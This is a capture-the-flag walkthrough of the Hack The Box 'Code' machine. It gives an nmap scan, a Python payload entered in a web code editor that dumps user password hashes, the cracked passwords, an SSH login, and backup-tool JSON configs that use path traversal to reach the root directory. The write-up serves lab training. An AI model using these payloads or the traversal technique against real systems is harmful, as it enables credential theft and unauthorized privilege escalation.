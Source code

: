 # Code Write-up

<img src="https://labs.hackthebox.com/storage/avatars/55cc3528cd7ad96f67c4f0c715efe286.png" width="200" height="200">

## Recon 

### Port enumeration with NMap

`nmap -sC -sV 10.10.11.62`

    PORT     STATE    SERVICE   VERSION
    22/tcp   open     ssh       OpenSSH 8.2p1 Ubuntu 4ubuntu0.12 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   3072 b5:b9:7c:c4:50:32:95:bc:c2:65:17:df:51:a2:7a:bd (RSA)
    |   256 94:b5:25:54:9b:68:af:be:40:e1:1d:a8:6b:85:0d:01 (ECDSA)
    |_  256 12:8c:dc:97:ad:86:00:b4:88:e2:29:cf:69:b5:65:96 (ED25519)
    5000/tcp open     http      Gunicorn 20.0.4
    |_http-title: Python Code Editor
    |_http-server-header: gunicorn/20.0.4
    9898/tcp filtered monkeycom
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

## Exploitation 

We can see that port 5000 is running a Python Code Editor.

![image](https://github.com/user-attachments/assets/64329268-39d2-469b-9b09-134864bc0cc4)

Use payload:

    print([(user.id, user.username, user.password) for user in User.query.all()])

![image](https://github.com/user-attachments/assets/92fb4455-617b-4f0c-9bd8-e3cdc8c175f1)

Credentials:

    development:759b74ce43947f5f4c91aeddc3e5bad3
    
    martin:3de6f30c4a09c27fc71932bfc68474be
    
    1:c4ca4238a0b923820dcc509a6f75849b

We can use CrackStation

![image](https://github.com/user-attachments/assets/a691af07-fe5f-4653-bb4b-b2be4a868b4b)

![image](https://github.com/user-attachments/assets/8df2dc7a-163f-42a2-aae1-966d255f0329)

![image](https://github.com/user-attachments/assets/52502a54-c3a7-4a84-93ee-697ad8a9d519)

Passwords

`development`:`development`

`martin`:`nafeelswordsmaster`

### SSH

Martin's account

    ssh martin@code.htb

![image](https://github.com/user-attachments/assets/771c020d-8b06-43f8-bf6d-1efe1893f457)

![image](https://github.com/user-attachments/assets/0f7458be-8b8f-45ca-b973-4fc1bb80bdda)

![image](https://github.com/user-attachments/assets/ffeca174-7211-4583-a115-87c7ffad4a45)

![image](https://github.com/user-attachments/assets/f7bc8ab2-accc-41ea-8cd2-8d7055ef1ad2)

![image](https://github.com/user-attachments/assets/94b628f7-6a92-43b6-b553-4402d6d1c567)

    {
    “destination”: “/home/martin/”,
    “multiprocessing”: true,
    “verbose_log”: false,
    “directories_to_archive”: [
    “/home/app-production/user.txt”
    ]
    }

![image](https://github.com/user-attachments/assets/52bc9d84-f57c-4958-a3ab-19840b7022d8)

![image](https://github.com/user-attachments/assets/e037c2e8-6142-43e2-baba-03624b639a41)

![image](https://github.com/user-attachments/assets/d99448ae-4d95-46c1-bdd2-35d05a2221c1)

### Get the user flag!

![image](https://github.com/user-attachments/assets/929e6daa-a817-4c99-bba9-8d3634d882ca)

### Privilege Escalation

    {
    “destination”: “/home/martin/”,
    “multiprocessing”: true,
    “verbose_log”: true,
    “directories_to_archive”: [
    “/var/….//root/”
    ]
    }

![image](https://github.com/user-attachments/assets/571a91cb-c7f5-4d21-bbd4-4213ed9a6a69)

### Get the root flag!

![image](https://github.com/user-attachments/assets/60a4d038-0792-4447-8de9-d619e4781f23)
